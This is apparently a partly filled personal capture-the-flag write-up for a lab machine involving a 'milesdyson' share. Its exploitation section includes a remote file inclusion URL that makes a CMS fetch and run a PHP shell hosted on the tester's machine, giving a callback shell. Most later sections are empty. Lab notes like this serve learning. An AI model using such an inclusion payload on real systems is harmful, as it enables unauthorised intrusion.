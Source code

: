 ```
```
- log2.txt
	- Empty
- log3.txt
	- Empty

### Pulled all files from *milesdyson* share:

---

# Exploitation
## Remote File Inclusion
- Located a hidden directory from the milesdyson share after enumerating that with [[ffuf]] it leads to `/adminstrator` sub-directory.
- The directory showed they are using a CMS that is exploitable via both LFI and RFI
- Used the RFI to upload and run a shell which called back to us and got us in
```URL
http://10.10.120.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.0.100:3000/shell.php5?
```


---

# Lateral Movement to user
## Local Enumeration


## Lateral Movement vector


---

# Privilege Escalation
## Local Enumeration


## Privilege Escalation vector


---

# Trophy & Loot

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: July 18th 2023 (06:05 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
